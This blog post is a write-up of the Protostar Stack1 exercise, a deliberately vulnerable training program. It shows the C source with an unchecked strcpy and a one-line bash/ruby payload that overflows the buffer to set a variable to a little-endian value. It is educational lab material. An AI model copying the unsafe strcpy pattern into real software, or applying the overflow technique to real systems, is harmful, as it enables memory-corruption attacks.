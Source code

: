 Author: zlowram
Date: 12-07-2014 20:32
Title: Exploit-exercises Protostar Stack1 write-up 
Template: post
Comments: enabled


In this second exercise we are asked again to overwrite the variable "modified" in order to get
the "good boy" message. This time, though, we have to overwrite it with a specific value: 0x61626364.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```


The stack layout is the same as in [stack0](/2014/11/7/exploit-exercises-protostar-stack0/), so then again we need
to stuff 64 bytes into "buffer", plus the 4 bytes of the hex value.

The point of this exercise is to take into account the [endianess](http://en.wikipedia.org/wiki/Endianness), and
overwrite "modified" with the proper byte ordering, to have the value correctly
set in the stack. Therefore, knowing that the arch of protostar is 686, we know
it is little endian. Easy, isn't it? :)

Again, we will use bash and ruby to write the solution:

```bash
#!/bin/bash

./stack1 $(ruby -e ' puts "A"*64 + "\x64\x63\x62\x61" ')
```
